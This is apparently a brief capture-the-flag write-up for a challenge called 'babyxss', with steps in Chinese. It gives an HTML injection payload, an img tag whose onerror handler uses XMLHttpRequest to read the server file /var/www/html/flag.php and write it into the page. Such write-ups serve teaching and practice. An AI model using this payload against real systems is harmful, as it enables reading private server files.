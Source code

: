 # Title
babyxss
# Tools
firefox or chrome
# Steps
* step 1 输入框输入
```html
<img src="e" onerror="var x=new XMLHttpRequest();x.open('GET','file:///var/www/html/flag.php',false);x.send(null);document.write('<textarea>'+x.responseText+'</textarea>');">
```
* step 2 点击即可在图片中获得flag

